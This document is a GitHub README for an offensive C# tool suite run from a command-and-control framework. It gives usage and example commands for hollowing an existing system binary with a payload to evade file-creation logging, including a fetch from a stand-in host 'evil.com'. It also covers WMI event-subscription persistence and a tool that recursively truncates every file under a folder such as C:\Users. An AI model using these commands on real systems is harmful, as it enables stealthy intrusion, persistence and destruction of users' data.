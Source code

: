 <div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/90aed9430f5944f569a7e0a0c2caf2a1a47c7b37/examples/SHARPCAKES.png">
</div>
<div align="center">
	Welcome to SharpC4k3s
</div>
<br>

## Tool Suite
- **HollowNGo**
- **GhostGrip WMI**
- **Host2IP**
-  **NibbleNibble**

The SharpC4k3 Suite was designed to be executed inline, however like any C# Program they be used standalone also. All Tools leverage .Net v2 to ensure compatibility with target hosts.

## HollowNGO
HollowNGo aims to avoid FileCreation Events by utilising and hijacking files that already exist on disk. This is achieved by reading your payload as a compressed byte array and converting it to base64 which is then stored in a memorysteam. HollowNGo then sets the target file stream length to 0, and using the orignal encoding operation in reverse, writes to the target file. There are a few options when running the tool as shown below. Note that creating the encoded binary data locally (-encode) it is expected to run on your dev box not the target.

#### Create compressed encoded binary data
**Usage:** HollowNGo.exe -encode <source.exe> -output <output.txt>
- **Example:** HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

#### Via data output from -encode option
**Usage:** HollowNGo.exe -source <base64_content> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

#### Via remote hosted file
**Usage:** UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/c674b6dd870ddc8f4c7601b8d9e18f0feec36381/examples/HollowNGo.png">
</div>
<div align="center">
	HollowNGo Havoc example
</div>
<br>

## GhostGrip WMI
GhostGrip WMI aims to simplify the process of setting WMI persistence on your target with easy to use flag options. Ghost Grip WMI creates a WMIEventSubscription based on your prefered event for persistence as well as its execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

**Usage:** GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/77242f2d974647427e6df74a15df5de9512e4070/examples/GhostGrip_WMI.png">
</div>
<div align="center">
	GhostGrip WMI Havoc example
</div>
<br>

## NibbleNibble
A somewhat pointless tool, NibbleNibble simply recursively sets target files stream length to 0 from a given directory path.

**Usage:** NibbleNibble.exe -path <TargetStartPath>
- **Example:** dotnet inline-execute NibbleNibble.exe -path C:\Users

### **Disclaimer:** These tools are not to be used for any unauthorized activity :)
